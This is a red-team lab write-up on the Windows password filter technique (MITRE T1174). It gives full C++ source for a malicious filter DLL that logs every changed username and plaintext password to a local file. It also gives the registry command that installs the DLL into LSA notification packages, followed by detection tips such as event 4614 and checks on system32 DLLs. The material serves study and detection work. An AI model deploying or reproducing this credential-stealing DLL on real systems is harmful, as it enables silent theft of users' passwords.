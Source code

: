 ```yaml
---
description: Credential Access
---
```


# T1174: Password Filter

This lab explores a native OS notification of when the user account password gets changed, which is responsible for validating it. That, of course means, that the password can be intercepted and logged.

## Execution

Password filters are registered in registry and we can see them here:

{% code title="attacker@victim" %}
```csharp
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
{% endcode %}

Or via regedit:

![](../../.gitbook/assets/password-filter-regedit.png)

Building an evil filter DLL based on a great [article](http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html) by mubix. He has also kindly provided the code to use, which I modified slightly to make sure that the critical DLL functions were exported correctly in order for this technique to work, since mubix's code did not work for me out of the box. I also had to change the logging statements in order to rectify a couple of compiler issues:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>
#include <stdio.h>
#include <iostream>
#include <fstream>
using namespace std;

void writeToLog(const char* szString)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	if (NULL == pFile)
	{
		return;
	}
	fprintf(pFile, "%s\r\n", szString);
	fclose(pFile);
	return;

}

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify(void)
{
	OutputDebugString(L"InitializeChangeNotify");
	writeToLog("InitializeChangeNotify()");
	return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
	PUNICODE_STRING AccountName,
	PUNICODE_STRING FullName,
	PUNICODE_STRING Password,
	BOOLEAN SetOperation)
{
	OutputDebugString(L"PasswordFilter");
	return TRUE;
}

extern "C" __declspec(dllexport) NTSTATUS __stdcall PasswordChangeNotify(
	PUNICODE_STRING UserName,
	ULONG RelativeId,
	PUNICODE_STRING NewPassword)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
	{
		return true;
	}
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer, NewPassword->Buffer);
	fclose(pFile);
	return 0;
}
```

{% file src="../../.gitbook/assets/evilpwfilter.dll" caption="Password Filter DLL" %}

Injecting the evil password filter into the victim system:

{% code title="attacker@victim" %}
```csharp
reg add "hklm\system\currentcontrolset\control\lsa" /v "notification packages" /d scecli\0evilpwfilter /t reg_multi_sz

Value notification packages exists, overwrite(Yes/No)? yes
The operation completed successfully.
```
{% endcode %}

![](../../.gitbook/assets/password-filter-updating-registry.png)

Testing password changes after the reboot - note how the password changes are getting logged:

![](../../.gitbook/assets/password-filter-filter-working.png)

## Observations

Windows event `4614` notifies about new packages loaded by the SAM:

![](../../.gitbook/assets/password-filter-log1.png)

Logging command line can also help in detecting this activity:

![](../../.gitbook/assets/password-filter-cmdline.png)

...especially, if the package has just been recently dropped to disk:

![](../../.gitbook/assets/password-filter-createdtime.png)

Also, it may be worth considering checking new DLLs dropped to `%systemroot%\system32` for exported `PasswordChangeNotify`function:

![](../../.gitbook/assets/password-filter.png)

## References

{% embed url="http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1174" %}

